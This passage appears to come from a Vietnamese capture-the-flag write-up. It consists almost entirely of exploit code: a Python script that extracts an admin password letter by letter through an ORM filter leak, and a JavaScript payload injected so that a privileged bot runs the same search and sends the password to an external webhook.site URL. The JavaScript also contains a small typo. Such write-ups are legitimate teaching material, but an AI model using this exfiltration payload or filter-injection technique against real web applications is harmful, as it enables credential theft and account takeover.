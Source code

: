 ```python
admin_pass = ''
while 1:
    before = admin_pass
    for guess in string.ascii_lowercase:
        x = filter(filters={
            "owner__password__startswith": f"{admin_pass}{guess}",
            "owner__username__startswith": f"admin"
        })
        if x > 2:
            admin_pass += guess
            print(admin_pass)
            break
    if before == admin_pass:
        break



print("Found : ", admin_pass)    
```
    
![image](https://hackmd.io/_uploads/BkeiU1iBJl.png)

Ok thì mình đã leak được từ terminal nhưng mình cần leak từ web nên mình sẽ chèn đoạn js giống trên để contract_manager fetch
    
```js
const chr = "abcdefghijklmnopqrstuvwxyz";
let full = false;
let admin_pass = '';
let webhook = 'https://webhook.site/879c2788-e869-47ee-ba66-5a56f0939a97';

while (!full) {
    for (let i = 0; i < chr.length; i++) {
        const testPassword = admin_pass + chr[i];
        const prefixResponse = await fetch(`/contracts/manage?owner__password__startswith=${testPassword}&owner__username=admin`);
        const prefixData = await prefixResponse.text();
        if (!prefixData.includes('No contracts found based on the current filter.')) {
            admin_pass += chr[i];
            const fullResponse = await fetch(`/contracts/manage?owner__password=${admin_pass}&owner__username=admin`);
            constfullData  = await fullResponse.text();
            if (!fullData.includes('No contracts found based on the current filter.')) {
                full = true;
                console.log(`Password found: ${admin_pass}`);
                await fetch(`${webhook}?x=${encodeURIComponent(admin_pass)}`);
                return;
            }
            break;
        }
    }
}
```
    